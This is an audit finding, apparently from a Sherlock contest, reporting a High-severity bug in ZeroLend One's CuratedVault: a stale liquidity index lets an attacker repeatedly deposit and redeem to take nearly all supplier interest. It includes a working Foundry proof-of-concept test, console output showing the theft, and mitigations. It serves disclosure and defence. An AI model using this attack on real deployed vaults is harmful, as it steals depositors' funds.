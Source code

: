 Joyous Cedar Tortoise

High

# Attacker can continually steal all the interest earned by suppliers in the vault

### Summary

An attacker can repeatedly front-run pool actions with an atomic action that steals all the interest earned by a particular vault. 

### Root Cause

`CuratedVault.totalAssets()` calls [`Pool.getBalanceByPosition()`](https://github.com/sherlock-audit/2024-06-new-scope/blob/a150815e6e6cae8b14a4ca5bb05d545f6a5e07ae/zerolend-one/contracts/core/pool/PoolGetters.sol#L47-L49)

```solidity
function getBalanceByPosition(address asset, bytes32 positionId) external view returns (uint256 balance) {
    return _balances[asset][positionId].getSupplyBalance(_reserves[asset].liquidityIndex);
}
```

As shown above, `getBalanceByPosition()` uses the stored liquidity index to obtain the supply balance.

The issue is that `_accrueFee` does not force update pool reserves first. This means that the `totalAssets()` that it obtains is not calculated using the pool’s latest `liquidityIndex`.

This allows the attacker to use `deposit` or `mint` with stale liquidity indexes, allowing them to mint shares for cheaper. Then they call `redeem`  to redeem more assets than they deposited, stealing the interest accrued as the liquidity index updates to the correct value.

### Internal pre-conditions

_No response_

### External pre-conditions

_No response_

### Attack Path

Whenever a pool’s true liquidity index is greater than the stored liquidity index, an attacker can atomically deposit into a vault and withdraw immediately after to steal interest from all other vault suppliers.

### Impact

Attacker steals nearly 100% of the interest accrued to suppliers.

### PoC

This specific PoC requires position.getSupplyBalance() to be calculated correctly  (where the last supplyShares are multiplied by the last liquidity index). Currently that calculation is incorrect. The calculation should be identical to ReserveSupplyConfiguration.getSupplyBalance(), this has been reported as a separate issue. 

**Make the following change in `contracts/core/pool/configuration/PositionBalanceConfiguration.sol`:**
<details>

```diff
function getSupplyBalance(DataTypes.PositionBalance storage self, uint256 index) public view returns (uint256 supply) {
-   uint256 increase = self.supplyShares.rayMul(index) - self.supplyShares.rayMul(self.lastSupplyLiquidtyIndex);
-   return self.supplyShares + increase;
+   return self.supplyShares.rayMul(index); // <-----MY FIX TO THE BUG
}
```
</details>

**Coded PoC (add to `test/forge/core/vaults/ERC4626Test.t.sol`):** 

<details>

```solidity
function testJ_DepositThenRedeem() public {
    IPool pool0 = allMarkets[0];

    address attacker = makeAddr('attacker');
    uint256 initialBalance = 100e18;
    uint256 deposited = 100e18;
    uint256 borrowedAssets = deposited * 99 / 100; // leave 1% of the deposited funds- that is stolen by attacker
    uint256 attackerAssets = 100_000e18; // can be flash loaned

    deal(address(loanToken), attacker, attackerAssets * 2);
    deal(address(loanToken), supplier, initialBalance);

    vm.startPrank(supplier);
    uint256 shares = vault.deposit(deposited, supplier);

    //Borrower borrows
    deal(address(loanToken), borrower, initialBalance);
    deal(address(collateralToken), borrower, initialBalance * 2);

    vm.startPrank(borrower);
    loanToken.approve(address(pool0), type(uint256).max);
    pool0.supplySimple(address(collateralToken), borrower, borrowedAssets * 15 / 10, 0);
    pool0.borrowSimple(address(loanToken), borrower, borrowedAssets, 0);
    vm.stopPrank();

    vm.startPrank(attacker);
    for (uint256 i = 0; i < 50; i++) {
        // Time passes to accrue interest
        vm.warp(block.timestamp + 10 days / 50);

        loanToken.approve(address(vault), type(uint256).max);
        uint256 sharesMinted = vault.deposit(attackerAssets, attacker); // this updates the ting only after doing share calc
        vault.redeem(sharesMinted, attacker, attacker); // redeem more assets for the same amount of shares
    }
    vm.stopPrank();

    // Borrower repays, and pays their interest
    vm.startPrank(borrower);
    DataTypes.SharesType memory repayData = pool0.repaySimple(address(loanToken), type(uint256).max, 0);
    pool0.withdrawSimple(address(collateralToken), borrower, type(uint256).max, 0);
    vm.stopPrank();
    uint256 interestPaid = repayData.assets - borrowedAssets;

    // Supplier withdraws from the vault
    vm.startPrank(supplier);
    uint256 assetsWithdrawn = vault.redeem(shares, supplier, supplier);
    vm.stopPrank();

    uint256 attackerProfit = loanToken.balanceOf(attacker) - attackerAssets * 2;
    console.log('interestPaid: %e', interestPaid);
    console.log('attackerProfit: %e', attackerProfit);
    console.log('supplierProfit: %e', assetsWithdrawn - deposited);
}
```
</details>

**Console Output:**
```bash
Ran 1 test for test/forge/core/vaults/ERC4626Test.sol:ERC4626Test
[PASS] testJ_DepositThenRedeem() (gas: 11345508)
Logs:
	interestPaid: 1.000720276253985225e18
  attackerProfit: 9.9961951619305216e17
  supplierProfit: 9.99624412475311e14
```

The console output demonstrates that the attacker earned 99%+ of the interest during that period

### Mitigation

The ideal solution would be to update the `totalAssets()` function, and use the formula `assets = shares * pool.getNormalizedIncome()`to obtain the up-to-date balance of the vault in each pool. 

Another solution is to call `pool.forceUpdateReserve()` at the start to ensure that `totalAssets()` is up to date. However in this case other functions that use `totalAssets()` will still be using a stale liquidity index to calculate the supply balance.